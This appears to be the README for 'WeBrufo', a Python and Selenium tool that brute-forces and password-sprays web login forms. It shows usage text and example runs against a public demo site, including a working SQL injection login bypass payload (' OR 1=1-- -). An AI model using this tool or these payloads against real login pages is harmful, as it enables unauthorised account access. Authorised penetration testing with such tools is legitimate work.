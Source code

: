 # WeBrufo (WEb BRUte-FOrcer)

## Table of Contents

* [Introduction](#Introduction)
* [Dependencies](#Dependencies)
* [Usage](#Usage)



## Introduction
A simple script to bruteforce web forms. Uses CSS selector to locate the inputs and perform bruteforce. Both credential bruteforce and spraying can be performed using this script. The script is inspired from <a href="https://github.com/maximousblk/callow">Callow</a>. This script works on <b>most</b> of the web forms with any number of inputs, provided the input css selector are passed in the argument. 

And as for the name, I was too lazy to think and come up with some cool name...

## Dependencies
The script primarily requires python (obviously) and Selenium to start a headless browser session and perform the bruteforce. Can be installed using  
``` python
pip install selenium
```
## Usage
```bash
    __      __      ___.                 _____       
    /  \    /  \ ____\_ |_________ __ ___/ ____\____  
    \   \/\/   // __ \| __ \_  __ \  |  \   __\/  _ \ 
     \        /\  ___/| \_\ \  | \/  |  /|  | (  <_> )
      \__/\  /  \___  >___  /__|  |____/ |__|  \____/ 
           \/       \/    \/                          
    
usage: webrufo.py [-h] [-p PARAMS [PARAMS ...]] [-c CONST [CONST ...]] [--count COUNT]
                  [--submit SUBMIT] [--resume] [-u URL] [-d]

Bruteforce web form fields.

options:
  -h, --help            show this help message and exit
  -p PARAMS [PARAMS ...], --params PARAMS [PARAMS ...]
                        HTTP parameters -p '#username'::username.txt '#password'::password.txt
  -c CONST [CONST ...], --const CONST [CONST ...]
                        Constant parameters. Syntax same as for --params. Useful for Null payload
                        bruteforce/Password spraying etc.
  --count COUNT         Count of null payloads. To be used when only constant parameters are
                        passed. Usefull for null payload bruteforce.
  --submit SUBMIT       Optional argument to pass CSS selector for submit button
  --resume              Optional parameter to continue even after getting valid credentials
  -u URL, --url URL     Target URL
  -d, --debug           Print debug information
```


The basic command to run the script is
```bash
/webrufo> python webrufo.py -u http://testphp.vulnweb.com/login.php -p '#content > div:nth-child(1) > form > table > tbody > tr:nth-child(1) > td:nth-child(2) > input[type=text]'::file.txt '#content > div:nth-child(1) > form > table > tbody > tr:nth-child(2) > td:nth-child(2) > input[type=password]'::file.txt --resume

     __      __      ___.                 _____       
    /  \    /  \ ____\_ |_________ __ ___/ ____\____  
    \   \/\/   // __ \| __ \_  __ \  |  \   __\/  _ \ 
     \        /\  ___/| \_\ \  | \/  |  /|  | (  <_> )
      \__/\  /  \___  >___  /__|  |____/ |__|  \____/ 
           \/       \/    \/                          
    
Initiating bruteforce attack
Tried: ['test', 'test']                           
Bruteforce successful. Credential combination: ['test', 'test']
Tried: ["' OR 1=1-- -", "' OR 1=1-- -"]                         
Bruteforce successful. Credential combination: ["' OR 1=1-- -", "' OR 1=1-- -"]
Tried: ['azureuser', 'azureuser']                                 
Attack completed!!
```

The script usage with constant parameters are:
```bash
/webrufo> python webrufo.py -u http://testphp.vulnweb.com/login.php -p '#content > div:nth-child(1) > form > table > tbody > tr:nth-child(1) > td:nth-child(2) > input[type=text]'::file.txt -c '#content > div:nth-child(1) > form > table > tbody > tr:nth-child(2) > td:nth-child(2) > input[type=password]'::testpassword --resume

     __      __      ___.                 _____       
    /  \    /  \ ____\_ |_________ __ ___/ ____\____  
    \   \/\/   // __ \| __ \_  __ \  |  \   __\/  _ \ 
     \        /\  ___/| \_\ \  | \/  |  /|  | (  <_> )
      \__/\  /  \___  >___  /__|  |____/ |__|  \____/ 
           \/       \/    \/                          
    
Initiating bruteforce attack
Tried: ["' OR 1=1-- -", 'testpassword']                         
Bruteforce successful. Credential combination: ["' OR 1=1-- -", 'testpassword']
Tried: ['azureuser', 'testpassword']                             
Attack completed!!
```

